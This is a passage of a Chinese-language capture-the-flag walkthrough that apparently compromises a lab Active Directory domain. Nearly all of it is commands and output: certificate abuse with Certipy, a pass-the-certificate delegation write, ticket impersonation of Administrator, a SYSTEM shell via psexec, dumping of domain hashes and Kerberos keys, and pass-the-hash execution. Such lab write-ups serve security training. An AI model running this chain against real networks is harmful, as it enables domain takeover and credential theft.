[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:172.22.12.12[\pipe\cert]
[proxychains] Strict chain  ...  124.71.111.64:1123  ...  172.22.12.12:445  ...  OK
[+] Connected to endpoint: ncacn_np:172.22.12.12[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with DNS Host Name 'WIN-SERVER.xiaorang.lab'
[*] Certificate object SID is 'S-1-5-21-3745972894-1678056601-2622918667-1106'
[*] Saved certificate and private key to 'win-server.pfx'
```

**然后利用证书即可获取到域控机器账号的Hash**

```
┌──(root㉿kali)-[~/Desktop]
└─# proxychains certipy auth -pfx win-server.pfx -dc-ip 172.22.12.6 -debug
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: win-server$@xiaorang.lab
[*] Trying to get TGT...
[proxychains] Strict chain  ...  124.71.111.64:1123  ...  172.22.12.6:88  ...  OK
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

```

但是这里报错了"`KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type`"

```
如是报krb_ap_err_skew(clock skew too great)
那么可以通过与域控时间同步解决 命令：`ntpdate 【域控IP】`
然后直接DCSync即可拿下整个域
```

### 5.4. 5.4.Pass the Certificate

这里报错 `KDC_ERR_PADATA_TYPE_NOSUPP` 多半时因为获取的证书没有 `智能卡登录` EKU，但这里我们可以通过  
参考文章：[Pass the Certificate  The Hacker Recipes](https://www.thehacker.recipes/ad/movement/schannel/passthecert)

**提取出密钥与证书**

```
┌──(root㉿kali)-[~/Desktop]
└─# certipy cert -pfx win-server.pfx -nokey -out win-server.crt 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'user.crt'
                                                                                                                 
┌──(root㉿kali)-[~/Desktop]
└─# certipy cert -pfx win-server.pfx -nocert -out win-server.key 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'user.key'

```

**将证书配置到域控的RBCD**

```
┌──(root㉿kali)-[~/Desktop]
└─# proxychains python3 passthecert.py -action write_rbcd -crt win-server.crt -key win-server.key -domain xiaorang.lab -dc-ip 172.22.12.6 -delegate-to 'win-server$' -delegate-from 'citrus$'


Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  124.71.111.64:1123  ...  172.22.12.6:636  ...  OK
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] citrus$ can now impersonate users on win-server$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     citrus$      (S-1-5-21-3745972894-1678056601-2622918667-1106)

```

**申请一张cifs服务的ST**

```
┌──(root㉿kali)-[~/Desktop]
└─# proxychains -q impacket-getST xiaorang.lab/'citrus$':'AdoEtAH3KlhwIgS8' -spn cifs/win-server.xiaorang.lab -impersonate Administrator -dc-ip 172.22.12.6
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
/usr/share/doc/python3-impacket/examples/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_win-server.xiaorang.lab@XIAORANG.LAB.ccache

```

**导入票据 PTT**

```
┌──(root㉿kali)-[~/Desktop]
└─# export KRB5CCNAME=Administrator@cifs_win-server.xiaorang.lab@XIAORANG.LAB.ccache

┌──(root㉿kali)-[~/Desktop]
└─# proxychains -q impacket-psexec Administrator@win-server.xiaorang.lab -k -no-pass -dc-ip 172.22.12.6 -codec gbk
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on win-server.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file glKuveQr.exe
[*] Opening SVCManager on win-server.xiaorang.lab.....
[*] Creating service jvUr on win-server.xiaorang.lab.....
[*] Starting service jvUr.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.14393]
(c) 2016 Microsoft Corporation。保留所有权利。

C:\windows\system32> whoami  
nt authority\system

```

## 6. flag03

### 6.1. SAM转储

```
┌──(root㉿kali)-[~/Desktop]
└─# proxychains impacket-secretsdump 'xiaorang.lab/administrator@win-server.xiaorang.lab' -target-ip 172.22.12.6 -no-pass -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3d0b51771c180c3bfcb89c8258922751
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d418e6aaeff1177bee5f84cf0466802c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
XIAORANG\WIN-SERVER$:plain_password_hex:b0aaec8c5af7a6f42965e68223e727bfec3c5403399b2f925ed537f84d6107967fe9c4b9557d2114eac844bb99711dbc0f5b67c4a07f9ce64434240a4742f1ad8e99966b3ccd5be08c52e3cebb24fee9ab15a11a0472e834727132afdf9a46b7979f355c244ac7d62e8a592f9a5c0afa6dbd27f29e54bf98cd776c12107973e8d654dcc05f242ec8533466c79d8a7d81a672a4db2955021dcffa18f515fe5bb894bc348cb8e490c723484e69a0c16edf7dce11724abceddb782cd748a0f01e172542df0f2877fd36ae7413e821757befae6a9856d25984e9791cc45b3f7ef47261b7aa566ba6304b92d04c161f2643ed
XIAORANG\WIN-SERVER$:aad3b435b51404eeaad3b435b51404ee:dcc5e5a1e10def3601b122942ca76971:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x1013bf8bbf66971ac0c6c4938c9c187c859ef5b7
dpapi_userkey:0xfd5a847b92da1e611b6a94df40e674f00b7054f8
[*] NL$KM 
 0000   9D 83 14 71 4B 67 2E 66  8B 36 79 E5 74 94 DF CE   ...qKg.f.6y.t...
 0010   F8 0F 28 EC 6A 7A 89 28  4F F7 D1 07 B7 9A B8 6E   ..(.jz.(O......n
 0020   14 76 A6 CC 5E 52 A4 86  86 55 3A C1 37 51 5D 87   .v..^R...U:.7Q].
 0030   3D 33 6E A7 45 EE 79 E8  89 60 CC A6 AA 98 58 EE   =3n.E.y..`....X.
NL$KM:9d8314714b672e668b3679e57494dfcef80f28ec6a7a89284ff7d107b79ab86e1476a6cc5e52a48686553ac137515d873d336ea745ee79e88960cca6aa9858ee
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa95e708a5182931157a526acf769b13:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a12e9453c13fc38f271f91059d9876d5:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
zhangling:1105:aad3b435b51404eeaad3b435b51404ee:07d308b46637d5a5035f1723d23dd274:::
WIN-SERVER$:1000:aad3b435b51404eeaad3b435b51404ee:dcc5e5a1e10def3601b122942ca76971:::
WIN-YUYAOX9Q$:1103:aad3b435b51404eeaad3b435b51404ee:e611213c6a712f9b18a8d056005a4f0f:::
WIN-AUTHORITY$:1104:aad3b435b51404eeaad3b435b51404ee:f6a954d29b98c4cbeb31a4ff8338bc12:::
citrus$:1106:aad3b435b51404eeaad3b435b51404ee:8e68731d2de3b42fa7c0fe882ffd253b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:931811f533238603f8b5158286cf9ad36ce6a57e4f27ec79450579e0b05893eb
Administrator:aes128-cts-hmac-sha1-96:068731dadb1705703176cfc37a5c5450
Administrator:des-cbc-md5:256dfbb0f87aef29
krbtgt:aes256-cts-hmac-sha1-96:1a711447ae68067f6212ca0e9eb30c85443d65ad7546e6fa9e3b7024199f7e2e
krbtgt:aes128-cts-hmac-sha1-96:b50c4f039acd8413cc01725d9cc9be9d
krbtgt:des-cbc-md5:c285a826dac4fe58
zhangling:aes256-cts-hmac-sha1-96:ae14f076559febbb8e32d87b1751160e64e95bec8ada9f3ba74c37c6e9f53874
zhangling:aes128-cts-hmac-sha1-96:a8bf7463f1b20a7c1cae3f1ab8ce9ed8
zhangling:des-cbc-md5:e0f4d534bc3bd0e5
WIN-SERVER$:aes256-cts-hmac-sha1-96:70d0ebf486e6b2ac483ad458e2f6538887e8abda9da7be5b990153e05795e30b
WIN-SERVER$:aes128-cts-hmac-sha1-96:6085d32d0bbafa82d437d995b67f5bd2
WIN-SERVER$:des-cbc-md5:4afebacdd30d2343
WIN-YUYAOX9Q$:aes256-cts-hmac-sha1-96:4c58dac71ff0e6765509efd6b3977782df8ab54ef0fda0b9f9317015d509fbcf
WIN-YUYAOX9Q$:aes128-cts-hmac-sha1-96:072d1926fb98407684a30c2312ca2199
WIN-YUYAOX9Q$:des-cbc-md5:b97fa1f29e9b311c
WIN-AUTHORITY$:aes256-cts-hmac-sha1-96:1053c9cbab39237d12cc330f02c85c9a1963b99abbb5fd607646e57333f4d7e9
WIN-AUTHORITY$:aes128-cts-hmac-sha1-96:4ed7f8df3d037c8968f13513e6745f99
WIN-AUTHORITY$:des-cbc-md5:049b834c43ab8c73
citrus$:aes256-cts-hmac-sha1-96:4a64cbfdb95047e22013c10220b1f3f2da04548b1d4d775075139e782d5abd96
citrus$:aes128-cts-hmac-sha1-96:30dd842fba349413733aac88eec7a122
citrus$:des-cbc-md5:5b7ffbb30eb6b07f
[*] Cleaning up... 

```

### 6.2. 密码喷涂

```
┌──(root㉿kali)-[~/Desktop]
└─# proxychains -q  nxc smb   172.22.12.12 -u 'administrator' -H 'aa95e708a5182931157a526acf769b13'
SMB         172.22.12.12    445    WIN-AUTHORITY    [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-AUTHORITY) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.12.12    445    WIN-AUTHORITY    [+] xiaorang.lab\administrator:aa95e708a5182931157a526acf769b13 (Pwn3d!) 

┌──(root㉿kali)-[~/Desktop]
└─# proxychains -q  nxc wmi   172.22.12.12 -u 'administrator' -H 'aa95e708a5182931157a526acf769b13'
RPC         172.22.12.12    135    WIN-AUTHORITY    [*] Windows 10 / Server 2016 Build 14393 (name:WIN-AUTHORITY) (domain:xiaorang.lab)
WMI         172.22.12.12    135    WIN-AUTHORITY    [+] xiaorang.lab\administrator:aa95e708a5182931157a526acf769b13 (Pwn3d!) 
```

### 6.3. smb

```
┌──(root㉿kali)-[~/Desktop/BloodHound/Certipy/certipy]
└─# proxychains -q  nxc wmi   172.22.12.12 -u 'administrator' -H 'aa95e708a5182931157a526acf769b13' -x 'type c:\Users\administrator\flag03.txt' 
RPC         172.22.12.12    135    WIN-AUTHORITY    [*] Windows 10 / Server 2016 Build 14393 (name:WIN-AUTHORITY) (domain:xiaorang.lab)
WMI         172.22.12.12    135    WIN-AUTHORITY    [+] xiaorang.lab\administrator:aa95e708a5182931157a526acf769b13 (Pwn3d!)
WMI         172.22.12.12    135    WIN-AUTHORITY    [+] Executed command: "type c:\Users\administrator\flag03.txt" via wmiexec
WMI         172.22.12.12    135    WIN-AUTHORITY    .-.      ___
WMI         172.22.12.12    135    WIN-AUTHORITY    /    \   (   )
WMI         172.22.12.12    135    WIN-AUTHORITY    | .`. ;   | |    .---.    .--.      .-.      .--.
WMI         172.22.12.12    135    WIN-AUTHORITY    | |(___)  | |   / .-, \  /    \   /    \   /     \
WMI         172.22.12.12    135    WIN-AUTHORITY    | |_      | |  (__) ; | ;  ,-. ' |  .-. ; (___)`. |
WMI         172.22.12.12    135    WIN-AUTHORITY    (   __)    | |    .'`  | | |  | | | |  | |    .-' /
WMI         172.22.12.12    135    WIN-AUTHORITY    | |       | |   / .'| | | |  | | | |  | |    '. \
WMI         172.22.12.12    135    WIN-AUTHORITY    | |       | |  | /  | | | |  | | | |  | |  ___ \ '
WMI         172.22.12.12    135    WIN-AUTHORITY    | |       | |  ; |  ; | | '  | | | '  | | (   ) ; |
WMI         172.22.12.12    135    WIN-AUTHORITY    | |       | |  ' `-'  | '  `-' | '  `-' /  \ `-'  /
WMI         172.22.12.12    135    WIN-AUTHORITY    (___)     (___) `.__.'_.  `.__. |  `.__,'    ',__.'
WMI         172.22.12.12    135    WIN-AUTHORITY    ( `-' ;
WMI         172.22.12.12    135    WIN-AUTHORITY    `.__.
WMI         172.22.12.12    135    WIN-AUTHORITY    
WMI         172.22.12.12    135    WIN-AUTHORITY    
WMI         172.22.12.12    135    WIN-AUTHORITY    flag03: flag{317621a6-bb66-4154-b157-365c871d52d2}
```
